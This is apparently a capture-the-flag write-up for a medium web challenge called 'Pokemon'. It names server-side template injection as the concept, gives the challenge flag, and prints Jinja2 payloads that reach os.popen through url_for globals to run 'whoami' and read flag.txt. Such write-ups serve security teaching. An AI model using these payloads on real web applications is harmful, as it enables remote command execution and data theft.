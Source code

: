 # Pokemon
Category: Web
Difficulty: Medium

### Description
Hãy cùng nhau chọn ra 1 người bạn đồng hành trong hành trình sắp tới tại clb E nhóe.

### Flag
ehcctf(g0tt4c_c4tch_3m_4ll)


### Concept
SSTI

### Writeup
`{{7*7}}`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt`

